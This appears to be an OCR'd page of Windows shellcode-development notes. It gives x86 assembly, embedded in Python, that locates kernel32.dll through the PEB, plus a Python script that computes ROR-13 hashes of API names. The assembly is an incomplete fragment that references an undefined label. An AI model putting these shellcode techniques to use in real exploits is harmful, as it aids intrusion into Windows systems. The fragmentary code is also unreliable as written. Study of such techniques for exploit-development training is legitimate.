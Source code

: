 ### Find Kernel32.dll Load Address

```python
CODE = (
" start: " 
" int3 ;" 
" mov ebp, esp ;" 
" sub esp, 200h ;" 
" find_kernel32: " 
" xor ecx, ecx ;" 
" mov esi,fs:[ecx+30h] ;" 
" mov esi,[esi+0Ch] ;" 
" mov esi,[esi+1Ch] ;" 
" mov ebx, [esi+8h] ;" 
" mov edi, [esi+20h] ;"
" mov esi, [esi] ;"
" cmp [edi+12*2], cx ;"
" jne next_module ;"
" find_function: "
" ret " 
)
```

### Find Kernel32.dll Load Address & Function

[https://gist.github.com/xct/96a4abb9381637a0a0f0f0471d9b4660](https://gist.github.com/xct/96a4abb9381637a0a0f0f0471d9b4660)

To search for a specific function we use a 4-byte hashing function instead of a string compare:

#### Python

```python
#!/usr/bin/python
import numpy, sys

def ror_str(byte, count):
    binb = numpy.base_repr(byte, 2).zfill(32)
    while count > 0:
        binb = binb[-1] + binb[0:-1]
        count -= 1
    return (int(binb, 2))

if __name__ == '__main__':
    try:
        esi = sys.argv[1]
    except IndexError:
        print("Usage: %s INPUTSTRING" % sys.argv[0])
        sys.exit()

    # Initialize variables
    edx = 0x00
    ror_count = 0

    for eax in esi:
        edx = edx + ord(eax)
        if ror_count < len(esi)-1:
            edx = ror_str(edx, 0xd)
        ror_count += 1

    print(hex(edx))
```
